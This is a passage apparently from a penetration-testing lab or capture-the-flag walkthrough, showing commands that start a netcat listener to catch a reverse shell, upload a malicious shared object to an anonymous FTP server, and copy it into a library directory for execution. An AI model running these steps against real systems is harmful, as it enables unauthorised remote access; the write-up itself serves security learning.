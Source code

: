 ### NC LISTENER:
Start netcat listener to catch the reverse shell on port 6379

```bash
nc -lvnp 6379
```
![](images/2025-08-31_12.png)

Upload the `utils.so` shared object to anonymous ftp. 

```bash
ftp 192.168.195.93 # anonymous:anonymous
cd pub
put utils.so
```

![](images/2025-08-31_13.png)

Move payload `utils.so` to `/usr/local/lib/dev` directory

```bash
cp /var/ftp/pub/utils.so /usr/local/lib/dev/utils.so
```
![](images/2025-08-31_15.png)

